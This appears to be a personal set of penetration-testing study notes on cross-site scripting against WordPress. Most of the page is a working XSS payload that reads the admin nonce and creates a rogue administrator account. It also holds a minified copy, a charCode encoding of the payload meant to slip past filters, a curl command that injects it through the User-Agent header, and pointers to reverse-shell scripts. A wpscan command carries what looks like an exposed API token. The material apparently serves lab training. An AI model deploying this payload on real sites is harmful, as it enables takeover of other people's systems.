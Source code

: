 ### Cross-Site Scripting (XSS)  - **XSS Tools - HackTricks**   - [Link](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/xss-tools)  
### Common Special Characters for XSS  - ` > ' " { } ;`  
### Resources  - [Percent-encoding - Wikipedia](https://en.wikipedia.org/wiki/Percent-encoding)  
## Privilege Escalation via XSS 
### JavaScript Code for Nonce  
```javascript var ajaxRequest = new XMLHttpRequest(); var requestURL = "/wp-admin/user-new.php"; var nonceRegex = /ser" value="([^"]*?)"/g; ajaxRequest.open("GET", requestURL, false); ajaxRequest.send(); var nonceMatch = nonceRegex.exec(ajaxRequest.responseText); var nonce = nonceMatch[1]; var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator"; ajaxRequest = new XMLHttpRequest(); ajaxRequest.open("POST", requestURL, true); ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"); ajaxRequest.send(params);``

### Compressed JavaScript

javascriptCopy code

`var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);`

### Encoding to JavaScript

javascriptCopy code

`function encode_to_javascript(string) {     var input = string     var output = '';     for(pos = 0; pos < input.length; pos++) {         output += input.charCodeAt(pos);         if(pos != (input.length - 1)) {             output += ",";         }     }     return output; }  let encoded = encode_to_javascript('var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);') console.log(encoded)`

### Result of Code Run in Console



`118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112`

### Usage Example with CURL

`curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(...));</script>" --proxy 127.0.0.1:8080`

### WordPress Reverse Shell

- [WordPress: Reverse Shell - Hacking Articles](https://www.hackingarticles.in/wordpress-reverse-shell/)
### Finding WordPress with WPScan

bashCopy code
`wpscan --url http://offsecwp/`

GET AN API TOKEN!!!!!
┌──(hollacosta㉿kali1)-[~]
└─$ wpscan --url http://alvida-eatery.org --api-token wkxSffDwg1OWHj50PpxpOVybhRIxdfYVCqSYeEzE1F8

### Reverse Shell PHP Script for Wordpress

- [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Use the **tun0** IP address for the reverse shell.

